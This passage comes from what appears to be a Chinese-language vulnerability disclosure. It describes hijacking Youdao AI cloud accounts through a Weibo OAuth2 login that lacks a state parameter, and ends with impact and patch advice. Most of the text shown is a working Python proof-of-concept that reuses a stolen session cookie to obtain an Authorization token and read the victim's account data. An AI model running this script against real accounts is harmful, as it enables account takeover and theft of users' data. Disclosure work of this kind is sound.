     if not JSESSIONID_NEW:
        print("no JSESSIONID_NEW found")
        sys.exit()

    print("################get JSESSIONID_NEW###############")
    print(JSESSIONID_NEW)


    # 2. login-weibo.s 
    url = "https://ai.youdao.com/login-weibo.s"

    payload = {}
    headers = {
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0',
    'Cookie':'JSESSIONID_NEW='+JSESSIONID_NEW+'; csrfToken=e9f3e7f6',
    'Origin': 'https://ai.youdao.com',
    'Sec-Fetch-Site': 'same-origin'
    }
    response = requests.request("POST", url, headers=headers, data=payload)

    # /consoleApi/ABTest/checkUser
    url = "https://ai.youdao.com/consoleApi/ABTest/checkUser"
    payload = {}
    response = requests.request("GET", url, headers=headers, data=payload)
    Authorization = response.headers['Authorization']
    print("################Authorization###############")
    print(Authorization)

    # /consoleApi/user/getUserInfo
    url = "https://ai.youdao.com/consoleApi/user/getUserInfo"
    payload = {}
    response = requests.request("POST", url, headers=headers, data=payload)
    print("################getUserInfo###############")
    print(response.text)
    ```

### Proof
请提供截图或视频

链接：[https://pan.baidu.com/s/150gjIgO-9ywmzt5bD92tEw](https://pan.baidu.com/s/150gjIgO-9ywmzt5bD92tEw)
提取码：1314

## Impact

该漏洞影响所有绑定了微博账户的有道智云用户，只要受害者用微博扫描攻击者发送的二维码，即可实现有道智云账户的劫持攻击。

## Patch advice

1. 对微博OAuth2设置state参数，并且限定redirect url。

